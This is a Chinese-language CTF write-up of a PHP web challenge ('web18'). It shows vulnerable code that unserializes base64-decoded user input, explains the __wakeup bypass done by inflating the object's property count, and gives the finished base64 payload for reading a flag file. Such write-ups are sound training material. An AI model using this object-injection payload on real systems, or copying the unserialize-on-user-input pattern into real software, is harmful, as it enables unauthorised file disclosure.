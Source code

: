 # web18

[web18][10]

 打开网页，扫描目录，发现有个 `/index`：
 

 

    <?php  
        class Small_white_rabbit{  
            private $file = 'index.php';  
        
            public function __construct($file) {  
                $this->file = $file;  
            }  
        
            function __destruct() {  
                echo @highlight_file($this->file, true);  
            }  
        
            function __wakeup() {  
                if ($this->file != 'index.php') {  
                    //the secret is in the_f1ag.php  
                    $this->file = 'index.php';  
                }  
            }  
        }  
        
        if (isset($_GET['var'])) {  
            $var = base64_decode($_GET['var']);  
            @unserialize($var);  
        } else {  
            highlight_file("index.php");  
        }  
    ?>
    
这里要读取 `the_f1ag.php` ，但是反序列化会触发 `__wakeup` 。不过有一个方法可以绕过，就是反序列化后把 `object` 的属性改多一些。

首先是序列化：

```
echo serialize( new Small_white_rabbit("the_f1ag.php"));
// O:18:"Small_white_rabbit":1:{s:24:"Small_white_rabbitfile";s:12:"the_f1ag.php";}
```
然后把 `"Small_white_rabbit":1`  这里的 `1` 改成 `2` (大于 `1` 就行)。

但是这里手动改是不行的，因为我们的对象里 `$file` 是 `private` 属性，所以你会发现序列化后属性很奇怪，变成了 `Small_white_rabbitfile`。而且变成长度还是 `24`。其实是因为他原本应该是这样的： `%00Small_white_rabbit%00file`。
有两个 `00`，所以我们可以这么改：

```
$a =  serialize(new Small_white_rabbit("the_f1ag.php"));
echo base64_encode(str_replace(":1:",":2:",$a));
// TzoxODoiU21hbGxfd2hpdGVfcmFiYml0IjoyOntzOjI0OiIAU21hbGxfd2hpdGVfcmFiYml0AGZpbGUiO3M6MTI6InRoZV9mMWFnLnBocCI7fQ==
```


  [1]: http://123.206.31.85:1616/
  [2]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/55f3fbe84093708c801a8277f80f499f.png
  [3]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/c56417574071e1588000433b4c8ec779.png
  [4]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/6f506efb40b311c980c5bddf95af3c5b.png
  [5]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/c7bb7bd24077aea3805379df9db129a4.png
  [6]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/60d667c940e25f3480d175f34ac54a0e.png
  [7]: http://tool.oschina.net/codeformat/js/
  [8]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/b8a7bb1840c199cd805559963e125d2f.png
  [9]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/0932a7d640182a3c808d62e7e9becd7d.png
  [10]: http://123.206.31.85:10024
  [11]: http://123.206.31.85:10012/
  [12]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/64ddb3bb40e2147680545170ed0c1662.png
  [13]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/6a2f450d407be58480eec39bc255f96a.png
  [14]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/f24f342d40cd4ae080996661d19e2cc5.png
  [15]: http://123.206.31.85:10023/
  [16]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/77d4b07840a8eba68078b6d12b681725.png